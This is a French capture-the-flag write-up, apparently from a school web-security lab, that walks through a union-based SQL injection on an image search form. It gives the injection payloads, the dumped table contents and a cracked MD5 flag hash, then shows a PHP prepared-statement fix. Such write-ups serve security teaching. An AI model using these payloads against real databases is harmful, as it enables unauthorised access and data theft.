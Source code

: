 
# Explications

Dans la page "searchimg", il y un formulaire pour faire une recherche des membres par id du site :
```html
<form action="#" method="GET" data-children-count="1">
	<input type="hidden" name="page" value="searchimg">
	<input type="text" name="id">
	<br>
	<input type="submit" name="Submit" value="Submit">
</form>
```
On sait que le site utilise une base de donnée sous MySQL et qu'il ne gere pas les entrées non prevues grâce a la faille précedente.
On peut donc effectuer des injections SQL.
Celle qui a fonctionner était une **Union-Based SQL Injection**

## Etapes
On mets une condition vraie dans tous les cas

<code>1 OR 1=1</code>
> Tous les imgs s'affichent
<pre>
ID: 1 OR 1=1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 OR 1=1 
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 OR 1=1 
Title: Google
Url : https://www.google.fr/google.png

ID: 1 OR 1=1 
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 OR 1=1 
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
</pre>

On affiche essaye d'afficher tous les noms de colonnes et de tables présentes sur la base de données a la palce de **Title** et d' **Url**

<code>1 UNION SELECT column_name, table_name FROM information_schema.columns</code>
> Toutes les tables et leurs colonnes s'affichent a la place du **First name** et du **Surname**

On cherche et on trouve un table **list_images** qui contient les colonnes :
1. id
2. url
3. title
4. comment

On cherche donc des informations intéressantes.

On try 2 part 2 les champs jusqu'à trouver 1 colonne intéressant, **title** qui donne (avec **Url**):

<code>1 UNION select url, comment from list_images</code>

<pre>
ID: 1 UNION SELECT url, comment from list_images 
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 UNION SELECT url, comment from list_images 
Title: An image about the NSA !
Url : https://www.nsa.org/img.jpg

ID: 1 UNION SELECT url, comment from list_images 
Title: There is a number..
Url : https://www.42.fr/42.png

ID: 1 UNION SELECT url, comment from list_images 
Title: Google it !
Url : https://www.google.fr/google.png

ID: 1 UNION SELECT url, comment from list_images 
Title: Yes we can !
Url : https://www.obama.org/obama.jpg

ID: 1 UNION SELECT url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png

ID: 1 UNION SELECT url, comment from list_images 
Title: Because why not ?
Url : https://www.h4x0r3.0rg/tr0ll.png
</pre>

Le password <code>1928e8083cf461a51303633093573c46</code> est en MD5 donc on applique un MD5 reverse et on obtient :
<pre>albatroz</pre>
On applique un Sha256, car c'est deja lower, pour obtenir le flag

# Comment l'éviter?
Il suffit d'utiliser le <code>prepare</code> quand on fait des requêtes à la base de données comme dans l'exmple ci-dessous:

```php
<?php
	function name(id) {
		try
		{
			// On se connecte
			$bdd = new PDO('mysql:host=localhost;dbname=name', 'mdp', '', array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION ));
			
			// On prépare la requête
			$requete = $bdd->prepare("SELECT * FROM users WHERE id = :id");

			// On lie la variable $id définie au-dessus au paramètre :id de la requête préparée
			$requete->bindValue(':id', $id, PDO::PARAM_STR);

			//On exécute la requête
			$requete->execute();
			
			// On récupère le résultat
			if ($requete->fetch())
			{
				echo 'INFORMATIONS';
			}
		} catch (Exception $e)
		{
			die('Erreur : ' . $e->getMessage());
		}
	}
?>
```